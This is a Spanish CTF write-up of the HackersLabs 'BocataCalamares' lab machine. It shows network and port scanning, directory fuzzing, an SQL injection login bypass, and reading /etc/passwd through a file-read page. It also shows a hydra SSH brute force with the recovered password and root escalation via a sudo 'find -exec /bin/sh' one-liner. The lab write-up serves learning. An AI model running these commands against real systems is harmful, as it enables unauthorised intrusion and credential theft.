








# BocataCalamares

Plataforma: HackersLabs
OS: Linux
Level: Easy
Status: Done
Complete: Yes
Created time: 15 de febrero de 2025 17:01
IP: 192.168.0.235

## Recopilación de información

<aside>
💡 Reconocimiento general

</aside>

Identificando red

```bash
 sudo arp-scan -I eth0 --localnet
Interface: eth0, type: EN10MB, MAC: 00:0c:29:c6:24:65, IPv4: 192.168.0.246
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.0.1	02:10:18:37:9b:14	(Unknown: locally administered)
192.168.0.91	a0:88:69:69:7d:2d	Intel Corporate
192.168.0.110	24:2f:d0:54:73:f6	(Unknown)
192.168.0.202	fc:8f:90:a5:1d:14	Samsung Electronics Co.,Ltd
192.168.0.235	00:0c:29:4e:45:4e	VMware, Inc.
```

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -n -Pn -vvv 192.168.0.235 -oG targeted

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 00:0C:29:4E:45:4E (VMware)

```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
sudo nmap -sCV 192.168.0.235 -oN targeted
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a6:3f:47:73:4c:6d:b3:23:29:fa:f8:1f:1d:42:44:b9 (ECDSA)
|_  256 11:b8:dc:df:a9:c1:9f:b5:8f:55:93:a4:ef:65:c8:d5 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: AFN
|_http-server-header: nginx/1.24.0 (Ubuntu)
MAC Address: 00:0C:29:4E:45:4E (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- **Identificación de vulnerabilidades**
    - 22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5
    - 80/tcp open  http    nginx 1.24.0 (Ubuntu)

- **Enumeración web**
    
    
    

Fuzzing

```bash
gobuster dir -u 'http://192.168.0.235' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.txt

Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 178] [--> http://192.168.0.235/images/]
/index.php            (Status: 200) [Size: 4145]
/login.php            (Status: 200) [Size: 2543]
/admin.php            (Status: 200) [Size: 359]
```

Login.php



Ya que la webpricipal hace alusión a injecciones de SQL, probamos alguna con Burpsuite:



Nos lleva directos  :

Admin.php



To-do-list



Sacamos de aquí que la web es lee-archivos en base64

```bash
echo 'lee_archivos' | base64
bGVlX2FyY2hpdm9zCg==
```

La web por tanto es bGVlX2FyY2hpdm9zCg==.php



Interceptamos con Burpsuite y vemos este código:



```html
<html>

	<form method="post" action="bGVlX2FyY2hpdm9zCg==.php">
		<label for="archivo"> Introduce el archivo a buscar: </label>
		<input type="text" id="archivo" name="archivo" required> 
		<button type="submit">Leer</button>
	</form>

	<pre></pre>
<!-- Tengo que limitar los archivos que se pueden ver, al menos hasta que los usuarios tengan unas contraseñas más robustas -->
<!-- Si alguien leyera el archivo donde se encuentran los usuarios y usara la herramienta hydra para atacar nuestro servicio ssh... Bueno, mañana me encargare de ello -->
</html>

```

Probamos a leer el /etc/passwd





Obtenemos el fichero y con el los usuarios. 

## Explotación

<aside>
💡 Siguiendo las indicaciones encontradas comentadas en el código, probamos a bruteforcear algun usuario con hydra

</aside>

### Explotación 1

Burteforce superadministrador

```bash
❯ hydra -l superadministrator -P /usr/share/wordlists/rockyou.txt 192.168.0.235 ssh
[DATA] attacking ssh://192.168.0.235:22/
[22][ssh] host: 192.168.0.235   login: superadministrator   password: princesa

```

### Explotación posterior

<aside>
💡 Accedemos con las credenciales encontradas

</aside>

```html
❯ ssh superadministrator@192.168.0.235

superadministrator@thehackerslabs-bocatacalamares:~$ whoami
superadministrator
```

### Escalada de privilegios

```bash
 sudo -l
 User superadministrator may run the following commands on thehackerslabs-bocatacalamares:
    (ALL) NOPASSWD: /usr/bin/find
 
```

Buscamos binario en GTObins 

```bash
./find . -exec /bin/sh -p \; -quit
```

Explotamos

```bash
superadministrator@thehackerslabs-bocatacalamares:/usr/bin$ sudo ./find . -exec /bin/sh -p \; -quit
# whoami
root
# 
```